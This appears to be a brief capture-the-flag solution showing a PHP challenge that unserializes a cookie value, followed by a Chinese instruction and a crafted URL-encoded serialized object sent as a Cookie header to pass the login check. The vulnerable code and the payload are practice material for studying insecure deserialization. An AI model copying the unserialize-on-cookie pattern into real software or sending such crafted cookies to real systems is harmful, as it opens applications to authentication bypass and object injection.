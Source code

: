 ```
<?php
highlight_file(__FILE__);
include("flag.php");
class mylogin{
    var $user;
    var $pass;
    function __construct($user,$pass){
        $this->user=$user;
        $this->pass=$pass;
    }
    function login(){
        if ($this->user=="daydream" and $this->pass=="ok"){
            echo "Success";
            return 1;
        }
    }
}
$a=unserialize($_COOKIE['param']);
$a->login();
```

在HTTP request中添加如下字段：

```
Cookie: param=O%3a7%3a"mylogin"%3a2%3a{s%3a4%3a"user"%3bs%3a8%3a"daydream"%3bs%3a4%3a"pass"%3bs%3a2%3a"ok"%3b}
```

